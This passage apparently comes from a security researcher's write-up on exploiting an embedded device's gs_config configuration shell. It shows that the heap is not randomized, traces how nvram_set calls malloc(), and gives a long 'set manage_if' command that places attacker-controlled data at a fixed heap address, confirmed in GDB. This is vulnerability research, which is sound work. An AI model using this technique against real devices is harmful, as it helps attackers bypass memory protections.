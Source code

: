 Shared libraries are correctly loaded at random addresses, however, the heap is at a static address. We can confirm this by enforcing heap randomization:

```
# echo 2 > /proc/sys/kernel/randomize_va_space 
# for i in `seq 1 5`; do grep heap /proc/self/maps; done
00d82000-00d83000 rwxp 00000000 00:00 0          [heap]
000e4000-000e5000 rwxp 00000000 00:00 0          [heap]
0079f000-007a0000 rwxp 00000000 00:00 0          [heap]
01fd0000-01fd1000 rwxp 00000000 00:00 0          [heap]
00a18000-00a19000 rwxp 00000000 00:00 0          [heap]


```

Knowing that the heap is not randomized, we have been looking for a way to utilize it for our purposes. The obvious choice is to look for the cross-references to the malloc() function, which lead to a set of imported functions from the libnvram.so shared library. The most interesting ones are nvram_get,nvram_set and nvram_commit. They're responsible for the device's nvram read/write operations.

```
$ readelf -ds gs_config | grep nvram                                 
 0x00000001 (NEEDED)                     Shared library: [libnvram.so]
    10: 00009080     0 FUNC    GLOBAL DEFAULT  UND nvram_erase_all
    19: 00009194     0 FUNC    GLOBAL DEFAULT  UND nvram_commit_sync
    37: 0000917c     0 FUNC    GLOBAL DEFAULT  UND nvram_commit
    44: 000093b0     0 FUNC    GLOBAL DEFAULT  UND nvram_get
    47: 000090d4     0 FUNC    GLOBAL DEFAULT  UND nvram_set
    54: 000092c0     0 FUNC    GLOBAL DEFAULT  UND nvram_erase_not_list
    59: 00009158     0 FUNC    GLOBAL DEFAULT  UND nvram_check_password
    60: 000091f4     0 FUNC    GLOBAL DEFAULT  UND nvram_erase_list
    75: 00009218     0 FUNC    GLOBAL DEFAULT  UND nvram_unset


```

During the analysis of the libnvram.so shared library, we've noticed that if the length of the configuration setting plus its value is larger than 100 bytes (hex 0x64), the nvram_set wrapper is going to call malloc(), and thus will request the memory from the heap.

![](https://www.secforce.com/media/images/malloc.width-800.png)

The following configuration shell command will force the program to allocate our controlled data at the static address on the heap:

```
CONFIG> set manage_if AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


```

Let's confirm in GDB:

```
gef➤  search-pattern "AAAAAAAAAAAAAAAAAA"
[+] Searching 'AAAAAAAAAAAAAAAAAA' in memory
[+] In '[heap]'(0x16000-0x17000), permission=rwx
  0x16012 - 0x16049  →   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]" 
  0x16024 - 0x1605b  →   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]" 
  0x16036 - 0x1606d  →   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]" 
  0x16048 - 0x1606d  →   "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" 
  0x1605a - 0x1606d  →   "AAAAAAAAAAAAAAAAAAA"


```
